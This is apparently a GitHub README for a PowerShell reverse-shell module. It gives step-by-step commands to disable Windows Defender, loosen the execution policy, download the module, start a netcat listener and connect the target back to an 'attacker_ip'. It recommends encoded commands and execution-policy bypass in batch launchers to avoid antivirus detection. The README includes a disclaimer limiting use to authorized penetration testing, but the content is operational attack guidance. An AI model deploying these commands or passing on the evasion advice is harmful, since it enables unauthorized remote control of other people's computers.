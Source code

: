 # ReverseShell - PowerShell
# Author: okpalandev
# Version: 1.0
# Date: 2024-03-24

## Disclaimer
This script is designed for educational and penetration testing purposes only. Do not use this script on systems that you do not have permission to test. The author of this script is not responsible for any damage caused by the use of this script.

## Description
This script is a reverse shell that uses PowerShell to connect to a remote host. The script is designed to be run on the target machine and will connect back to the attacker's machine. The script can be run on any Windows machine that has PowerShell installed. The script will open a connection to the attacker's machine and allow the attacker to execute commands on the target machine. The script is designed to be used for penetration testing and should only be used on systems that you have permission to test.

## Usage
To use the script, you will need to modify the IP address and port number in the script to match the IP address and port number of the attacker's machine. You will also need to run the script on the target machine. Once the script is running on the target machine, it will connect back to the attacker's machine and allow the attacker to execute commands on the target machine.

## Installation
To install the script, you can download the script from the GitHub repository and save it to your local machine. You can then import the script into PowerShell and run the script on the target machine.

## Requirements
1) Disable Windows Defender Real Time Protection  or any other Antivirus 
2) Add to Policy Execution
3) Run a Terminal as Administrator

```powershell
PS C:\> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser 
``` 

## Example
```powershell
PS C:\> Invoke-WebRequest -Uri "https://raw.githubusercontent.com/okpalandev/PSModules/ReverseShell/Modules/ReverseShell.psm1" -OutFile "ReverseShell.psm1"
```

```powershell
PS C:\> Import-Module .\ReverseShell.psm1
```
Then on the attacker machine, you can listen for the connection using Netcat or any other tool that can listen for incoming connections on the specified port.

```bash
$ nc -lvp 4444
```
    
Finally, you can start the reverse shell on the target machine by running the following command:

```powershell
PS C:\> Start-ReverseShell -IP "attacker_ip" -Port " 4444 " 
```

It is best pratice to use encoded command to avoid detection by Antivirus
in a batch file you can use the following command to run the script.

```batch
@echo off
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File "C:\path\to\ReverseShell.psm1"
```

In the script, you can use the following command to encode the script.

```batch
@echo off # Don't forget to add the ampersand at the beginning of the command.
powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -EncodedCommand "& EncodedCommand"
````
## Changelog
- 1.0: Initial script
````
```

